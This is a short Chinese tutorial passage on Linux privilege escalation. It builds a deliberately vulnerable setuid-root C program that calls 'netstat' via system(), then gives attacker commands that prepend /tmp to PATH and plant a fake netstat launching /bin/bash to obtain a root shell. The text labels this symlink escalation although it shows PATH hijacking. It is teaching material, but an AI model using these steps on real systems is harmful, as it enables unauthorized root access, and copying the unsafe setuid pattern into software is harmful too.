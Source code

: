 下面简单给个例子介绍如何进行软链接提权。

**示例代码如下**：

```shell
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main(){
    setuid(0);
    setgid(0);
    system("netstat -ntuap");
    return 0;
}
```

**环境配置**
root用户编译上面的程序，并赋s权限，使得任何一个用户都能够看到系统的网络监听明细。

```shell
gcc 1.c ;chmod 4755 a.out
```

**攻击者利用**

攻击者用户先修改自己的环境变量，加入高优先级的路径，如果在该路径下存在与其他路径同名的命令就能优先执行。在下面的具体命令中，由于示例代码内以root权限调用了netstat，而此时netstat已经被劫持了，所以可以最终造成了提权。

```
#部署$PATH劫持后门
export PATH=/tmp:$PATH
echo "/bin/bash" > /tmp/netstat
chmod 777 /tmp/netstat
#执行受害程序
./a.out